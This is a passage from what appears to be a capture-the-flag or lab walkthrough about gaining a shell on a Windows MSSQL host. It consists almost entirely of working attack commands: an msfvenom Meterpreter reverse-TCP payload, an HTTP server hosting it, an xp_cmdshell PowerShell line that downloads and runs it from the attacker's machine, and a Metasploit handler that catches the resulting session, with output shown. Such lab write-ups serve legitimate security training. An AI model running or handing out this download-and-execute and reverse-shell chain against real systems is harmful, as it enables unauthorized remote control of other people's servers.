 Spin up an `msfvenom` payload using:

```awk
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.29 LPORT=4444 -f exe -o payload.exe
```

Start python HTTP server using:

```
python3 -m http.server 8000
```

Fetch and execute the payload using:&#x20;

```bash
xp_cmdshell "powershell -c cd C:\Users\Public; wget http://10.10.14.29:8000/payload.exe -o payload.exe; .\payload.exe"
```

This would freeze the mssqlclient, but we will get shell access on the msfconsole.

Start a new `msfconsole`:

```
msfconsole
```

We need a multi/handler exploit to catch our payload's connection request:

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.29
msf6 exploit(multi/handler) > exploit
```

Wait for sometime until the shell pops up:

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.29:4444 
[*] Sending stage (200774 bytes) to 10.129.95.187
[*] Meterpreter session 29 opened (10.10.14.29:4444 -> 10.129.95.187:49709) at 2023-05-19 22:48:36 +0530

meterpreter > ls
Listing: C:\Users\Public
========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040555/r-xr-xr-x  0     dir   2021-07-27 15:00:54 +0530  AccountPictures
040555/r-xr-xr-x  0     dir   2018-09-15 12:42:36 +0530  Desktop
040555/r-xr-xr-x  0     dir   2020-01-20 12:09:33 +0530  Documents
040555/r-xr-xr-x  0     dir   2018-09-15 12:42:36 +0530  Downloads
040555/r-xr-xr-x  0     dir   2018-09-15 12:42:36 +0530  Libraries
040555/r-xr-xr-x  0     dir   2018-09-15 12:42:36 +0530  Music
040555/r-xr-xr-x  0     dir   2018-09-15 12:42:36 +0530  Pictures
040555/r-xr-xr-x  0     dir   2018-09-15 12:42:36 +0530  Videos
100666/rw-rw-rw-  174   fil   2018-09-15 12:41:27 +0530  desktop.ini
100777/rwxrwxrwx  7168  fil   2023-05-19 17:14:51 +0530  payload.exe
```

